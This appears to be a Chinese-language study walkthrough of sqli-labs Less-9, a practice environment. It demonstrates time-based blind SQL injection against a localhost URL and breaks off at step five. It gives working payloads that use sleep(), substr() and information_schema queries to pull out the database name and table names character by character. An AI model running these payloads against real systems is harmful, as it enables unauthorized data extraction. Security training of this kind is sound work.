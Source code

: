 类型：字符型+时间盲注

构造闭合符号：单引号`'`

###### 流程

1. 首先判断注入点，既不能联合也不能报错

2. 尝试布尔盲注，首先判断当前数据库长度
   
   ```sql
   二分法判断长度
   http://localhost:7036/sqli-labs/Less-9/?id=1' and 
   if((length(database())>10),sleep(2),1) -- s    //直接返回  0-10
   
   http://localhost:7036/sqli-labs/Less-9/?id=1' and 
   if((length(database())>5),sleep(2),1) -- s     //延时2秒   5-10
   
   http://localhost:7036/sqli-labs/Less-9/?id=1' and 
   if((length(database())>7),sleep(2),1) -- s     //延时2秒   7-10
   
   http://localhost:7036/sqli-labs/Less-9/?id=1' and 
   if((length(database())>8),sleep(2),1) -- s //直接返回
   
   http://localhost:7036/sqli-labs/Less-9/?id=1' and 
   if((length(database())=8),sleep(2),1) -- s //延时2秒 确定长度为8
   ```

3. 判断库名具体字符
   
   ```sql
   判断第1个字符（二分法，依次判断ascii码（33-127）） 方法与步骤2一致
   http://localhost:7036/sqli-labs/Less-9/
   ?id=1' and if((ascii(substr(database(),1,1))=115),sleep(2),1) -- s
   判断第2个字符
   http://localhost:7036/sqli-labs/Less-9/
   ?id=1' and if((ascii(substr(database(),2,1))=115),sleep(2),1) -- e 
   ... ...
   直到判断库名为8个字符的security
   ```

4. 判断表长度（方法同上 二分法）
   
   ```sql
   http://localhost:7036/sqli-labs/Less-9/
   ?id=1' and if((length((select table_name from 
   information_schema.tables 
   where table_schema=database() limit 0,1))=6),sleep(2),1) -- s  (例子：emails)
   
   #limit 0,1 限制此时判断的为第1个表
   #limit 1,1 限制此时判断的为第2个表
   
   ... ...依此类推
   ```

5.   判断表名具体字符（方法同上 二分法 判断ascii码）
   